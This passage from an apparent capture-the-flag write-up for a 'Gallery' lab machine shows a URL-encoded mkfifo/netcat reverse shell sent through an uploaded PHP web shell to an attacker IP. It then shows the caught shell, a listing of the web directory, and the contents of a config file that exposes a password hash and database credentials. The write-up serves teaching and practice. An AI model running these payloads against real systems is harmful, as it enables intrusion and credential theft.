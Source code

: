 - Fourth: Encode the reverse shell to the appropriate format. Move to this [online tool](https://www.urlencoder.org/)
```
rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fsh%20-i%202%3E%261%7Cnc%2010.11.20.2%201234%20%3E%2Ftmp%2Ff
```
- Fifth: Based on the result of the step **First**, change the **cmd** with the encode result from step **Fourth**
```
http://10.10.102.98/gallery/uploads/1644781020_TagohessdmjozsxddkzLetta.php?cmd=rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff|%2Fbin%2Fsh%20-i%202%3E%261|nc%2010.6.96.167%204646%20%3E%2Ftmp%2Ff
```
```
nc -nlvp 4646
Connection from 10.10.102.98:45342
/bin/sh: 0: can't access tty; job control turned off
$
```
**Question**
#### What's the hash password of the admin user?

I spent a lot of time into this machine to find something....
```
$ pwd
/var/www/html/gallery
$ ls -l
total 84
-rwxr-xr-x  1 www-data www-data  198 Mar 19  2021 404.html
drwxr-xr-x  2 www-data www-data 4096 Aug  9  2021 albums
drwxr-xr-x  2 www-data www-data 4096 Aug  9  2021 archives
drwxr-xr-x  4 www-data www-data 4096 Jun 28  2021 assets
drwxr-xr-x  6 www-data www-data 4096 Jun 28  2021 build
drwxr-xr-x  2 www-data www-data 4096 Aug 25 09:05 classes
-rwxr-xr-x  1 www-data www-data 1629 Aug  9  2021 config.php
-rwxr-xr-x  1 www-data www-data   26 Aug 25 09:24 create_account.php
drwxr-xr-x  2 www-data www-data 4096 Aug 25 08:24 database
drwxr-xr-x  4 www-data www-data 4096 Jun 28  2021 dist
-rwxr-xr-x  1 www-data www-data 1662 Aug  9  2021 home.php
drwxr-xr-x  2 www-data www-data 4096 Jun 28  2021 inc
-rwxr-xr-x  1 www-data www-data 3208 Aug  9  2021 index.php
-rwxr-xr-x  1 www-data www-data  695 Aug 25 08:42 initialize.php
-rwxr-xr-x  1 www-data www-data 3942 Aug 25 10:22 login.php
drwxr-xr-x 61 www-data www-data 4096 Jul 16  2021 plugins
drwxr-xr-x  2 www-data www-data 4096 Aug  6  2021 report
drwxr-xr-x  2 www-data www-data 4096 Aug  6  2021 schedules
drwxr-xr-x  2 www-data www-data 4096 Jun 28  2021 system_info
drwxr-xr-x  3 www-data www-data 4096 Feb 13 19:37 uploads
drwxr-xr-x  2 www-data www-data 4096 Jun 28  2021 user
```
I found this directory and too many php files. The most important file: **initialize.php**
```
$ cat initialize.php
<?php
$dev_data = array('id'=>'-1','firstname'=>'Developer','lastname'=>'','username'=>'dev_oretnom','password'=>'5da283a2d990e8d8512cf967df5bc0d0','last_login'=>'','date_updated'=>'','date_added'=>'');

if(!defined('base_url')) define('base_url',"http://" . $_SERVER['SERVER_ADDR'] . "/gallery/");
if(!defined('base_app')) define('base_app', str_replace('\\','/',__DIR__).'/' );
if(!defined('dev_data')) define('dev_data',$dev_data);
if(!defined('DB_SERVER')) define('DB_SERVER',"localhost");
if(!defined('DB_USERNAME')) define('DB_USERNAME',"gallery_user");
if(!defined('DB_PASSWORD')) define('DB_PASSWORD',"passw0rd321");
if(!defined('DB_NAME')) define('DB_NAME',"gallery_db");
?>
```